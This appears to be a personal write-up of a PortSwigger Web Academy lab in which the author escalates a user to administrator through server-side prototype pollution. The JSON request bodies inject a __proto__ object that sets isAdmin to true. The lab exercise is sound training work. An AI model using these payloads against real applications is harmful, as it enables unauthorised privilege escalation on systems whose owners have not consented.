 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/lab-5/"}
---
```



---
## Objective: Privilege Escalation


![[Pasted image 20250401003722.png\|Pasted image 20250401003722.png]]
We login using the given credentials:

`wiener:peter`

Looking at the fields below, looks like its updating the address. Let's take a look at the request being sent

![Pasted image 20250401003756.png](/img/user/Images/Pasted%20image%2020250401003756.png)
Yes, its goinng through the `/change-address` endpoint and sending a POST request with the data being in JSON.

![Pasted image 20250401003838.png](/img/user/Images/Pasted%20image%2020250401003838.png)
In the response section, we see a property set for our user `isAdmin: false` 

![Pasted image 20250401003856.png](/img/user/Images/Pasted%20image%2020250401003856.png)
We can attempt to test Server-Side Prototype Pollution by polluting the global `Object.prototype`. First send the request to `Repeater` . Then, add our property

```JSON
{
	"address_line_1":"Wiener HQ",
	"address_line_2":"One Wiener Way",
	"city":"Wienerville",
	"postcode":"BU1 1RP",
	"country":"UK",
	"sessionId":"EDeUr5ViCIS1NfMWDumM95iX6FOWY4OJ",
	"__proto__":{
		"foo":"bar"
	}
}
```

Next send the request and look at the `Response` 

![Pasted image 20250401003915.png](/img/user/Images/Pasted%20image%2020250401003915.png)
Success, we polluted the prototype. Now we can do stuff like change the `isAdmin` property to `true`

```json
{
	"address_line_1":"Wiener HQ",
	"address_line_2":"One Wiener Way",
	"city":"Wienerville",
	"postcode":"BU1 1RP",
	"country":"UK",
	"sessionId":"EDeUr5ViCIS1NfMWDumM95iX6FOWY4OJ",
	"__proto__":{
		"foo":"bar",
		"isAdmin":"true"
	}
}
```

Look at the `Response` again

![Pasted image 20250401003930.png](/img/user/Images/Pasted%20image%2020250401003930.png)
Success! Now refresh the website page and we have received Admin access